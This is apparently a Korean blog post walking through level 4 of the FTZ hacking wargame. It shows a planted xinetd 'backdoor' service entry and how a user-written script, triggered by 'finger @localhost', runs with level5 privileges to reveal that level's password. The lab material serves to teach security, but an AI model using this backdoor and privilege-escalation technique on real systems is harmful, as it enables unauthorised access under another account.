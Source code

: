 ```yaml
---
title: FTZ Level4
categories: [Wargame]
tags: [FTZ]
path: '/articles/2015-07/FTZ-level4'
date: '2015-07-14T00:00:00.000Z'
comments: true
---
```


```
[level4@ftz ~]$ cat hint

누군가 /etc/xinetd.d/에 백도어를 심어놓았다.!
```

/etc/xinetd.d폴더를 확인해 보자.

```bash
[level4@ftz ~]$ cd /etc/xinetd.d/
[level4@ftz xinetd.d]$ ls -al
total 88
drwxr-xr-x    2 root     root         4096 Jun 29 14:53 .
drwxr-xr-x   53 root     root         4096 Jul  8 12:21 ..
-r--r--r--    1 root     level4        171 Sep 10  2011 backdoor
-rw-r--r--    1 root     root          560 Dec 19  2007 chargen
-rw-r--r--    1 root     root          580 Apr 17  2003 chargen-udp
-rw-r--r--    1 root     root          417 Dec 19  2007 daytime
-rw-r--r--    1 root     root          437 Dec 19  2007 daytime-udp
-rw-r--r--    1 root     root          339 Dec 19  2007 echo
-rw-r--r--    1 root     root          358 Dec 19  2007 echo-udp
-rw-r--r--    1 root     root          317 Dec 19  2007 finger
-rw-r--r--    1 root     root          273 Dec 19  2007 ntalk
-rw-r--r--    1 root     root          359 Dec 19  2007 rexec
-rw-r--r--    1 root     root          376 Dec 19  2007 rlogin
-rw-r--r--    1 root     root          429 Dec 19  2007 rsh
-rw-r--r--    1 root     root          317 Sep 29  2004 rsync
-rw-r--r--    1 root     root          310 Dec 19  2007 servers
-rw-r--r--    1 root     root          312 Dec 19  2007 services
-rw-r--r--    1 root     root          406 Dec 19  2007 sgi_fam
-rw-r--r--    1 root     root          261 Dec 19  2007 talk
-rw-r--r--    1 root     root          305 Sep 10  2011 telnet
-rw-r--r--    1 root     root          495 Dec 19  2007 time
-rw-r--r--    1 root     root          515 Dec 19  2007 time-udp
```

이중 backdoor라는 파일이 의심스럽다.

```bash
[level4@ftz xinetd.d]$ cat backdoor
service finger
{
    disable        = no
    flags          = REUSE
    socket_type    = stream
    wait           = no
    user           = level5
    server         = /home/level4/tmp/backdoor
    log_on_failure += USERID
}
```

살펴보면 finger서비스를 작동시킬때, level5의 권한으로 /home/level4/tmp/backdoor파일을 실행시킨다.

`xinetd`은 외부에서 서비스를 실행시킬 때 데몬이 대기하고 있어야 하는데, 여러 데몬을 기다리도록 만들 경우 낭비가 심하여 그를 해결하기 위한 관리 데몬이라 생각하면 될것 같다.

<http://lily.mmu.ac.kr/lecture/08sm/Fedora2/7jang/2.htm> 더 자세한 내용은 참고하면 됩니다.

finger서비스를 구동시켜야 하는데, finger @localhost를 실행할 경우 finger가 외부로 요청을 보내게 됩니다.

그 것을 localhost로 받기 때문에, 다시 돌아와 외부에서 실행하는 서비스로 수행하게 됩니다. 이 서비스를 level5의 권한으로 backdoor를 실행하게 됩니다.

```bash
[level4@ftz tmp]$ pwd
/home/level4/tmp
[level4@ftz tmp]$ ls
[level4@ftz tmp]$
```

tmp폴더를 확인해 보면 프로그램이 존재하지 않습니다. 직접 만들어야 합니다.

```bash
[level4@ftz tmp]$ cat > backdoor
#!/bin/bash
my-pass
[level4@ftz tmp]$ chmod +x backdoor
```

이렇게 프로그램을 작성해 줍니다.

```bash
[level4@ftz tmp]$ finger @localhost
^[[H^[[J
Level5 Password is "             ".
```

이렇게 서비스를 작동시켜 주게 될 경우 backdoor프로그램이 정상적으로 실행됩니다.
